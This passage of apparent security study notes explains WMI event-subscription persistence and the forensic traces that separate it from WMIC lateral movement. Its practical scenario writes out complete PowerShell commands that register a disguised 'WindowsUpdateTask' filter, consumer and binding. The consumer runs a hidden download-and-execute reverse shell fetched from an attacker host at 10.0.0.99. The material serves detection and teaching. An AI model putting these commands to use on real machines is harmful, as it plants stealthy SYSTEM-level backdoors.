- `WITHIN 60`: Sets the polling interval to 60 seconds.
- `WHERE TargetInstance ISA 'Win32_NTLogEvent'`: Directs the filter to monitor the Windows Event Logs.
- `AND Targetinstance.EventCode = '4625'`: Specifically targets Event ID 4625 (Failed Logon).
- `And Targetinstance.Message Like '%johndoe%'`: Further filters the condition to only trigger if the failed logon message involves the user `johndoe`.

**Conclusion:** To execute the malicious consumer (the payload), the attacker proactively designed an event-driven trigger. They simply need to intentionally fail a login attempt for the `johndoe` account to deploy the backdoor on demand.

> `Win32_NTLogEvent`

## Summary {#3617b0eb61a48048bee8fe6612c33e7f}

### Distinguishing Between WMIC (Lateral Movement) and WMI (Persistence) {#3617b0eb61a48034b69fce6943f39795}

| **WMIC (Lateral Movement)**                                                                                                                | **WMI Event Subscription (MITRE ATT&CK T1546.00)**                          |
| ------------------------------------------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------- |
| A built-in command-line utility located at `C:\windows\system32\wbem\wmic.exe`.                                                            | Does not rely on `wmic.exe` to execute one-off commands.                    |
| The defining signature is the use of the `/node:<Target_IP>` parameter.                                                                    | Stealthily writes configurations directly into the internal WMI repository. |
| Executes a command **once** and then terminates.                                                                                           | Executes automatically and continuously based on predefined **conditions**. |
| **Forensic Traces:** Event ID 4688, Sysmon Event ID 1 (process execution containing `node`, `user`, and `process call create` parameters). | **Forensic Traces:** Sysmon Event IDs 19, 20, and 21.                       |

## Practical Scenario {#3617b0eb61a480499f8dca83e0a297ea}

**Context:** An attacker gains Administrator privileges on `DC01` and wants to plant a reverse shell backdoor that automatically executes 3 minutes after every system reboot.

### 1. Create a Filter (Sysmon Event ID 19) {#3617b0eb61a480d5b615f1b130b5a822}

The attacker instructs WMI: _"Alert me when the computer boots and the system uptime counter reaches 3 minutes (180 seconds)."_

PowerShell

`$query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 180"`

They register this "sensor" into the WMI repository under a camouflaged name, such as `WindowsUpdateTask`.

PowerShell

`$filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{Name = 'WindowsUpdateTask'; EventNameSpace = 'root\cimv2'; QueryLanguage = 'WQL'; Query = $query}`

### 2. Create an Event Consumer (Sysmon Event ID 20) {#3617b0eb61a48014bdfccead7cef529f}

This contains the payload to open port 4444 and establish a callback to the attacker's machine (IP: `10.0.0.99`).

PowerShell

`$payload = "powershell.exe -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://10.0.0.99/shell.ps1')"`

The attacker creates a `CommandLineEventConsumer` and gives it the exact same disguised name as the Filter to avoid standing out.

PowerShell

`$consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name = 'WindowsUpdateTask'; CommandLineTemplate = $payload}`

### 3. FilterToConsumerBinding (Sysmon Event ID 21) {#3617b0eb61a4801da64cc99d9c7ee4bd}

The final command: _"WMI, bind the 'WindowsUpdateTask' Filter to the 'WindowsUpdateTask' Consumer."_

PowerShell

`$binding = Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter = $filter; Consumer = $consumer}`

---

## Why This Persistence Mechanism is Advanced {#3617b0eb61a480c1a2a4dbc378d4cc79}

**The Stealth of WMI (Fileless Malware):**

- **No Physical Files:** It leaves no standalone malicious files on the hard drive. This WQL configuration is buried deep inside WMI's highly complex binary database (`C:\Windows\System32\wbem\Repository\OBJECTS.DATA`). Traditional antivirus solutions that rely on scanning the file system are completely blind to this.
- **Legitimate Execution Context:** The payload runs under `SYSTEM` privileges via `WmiPrvSE.exe` (a standard, built-in Windows process). To Endpoint Detection and Response (EDR) solutions, it merely looks like Windows performing its routine background tasks; nothing inherently suspicious stands out.
- **Event-Driven Nature:** It is proactively triggered based on specific conditions. As seen in other scenarios, an attacker can configure the malware to trigger precisely when they want (e.g., by purposely initiating a failed login event), rather than waiting passively for an execution opportunity.
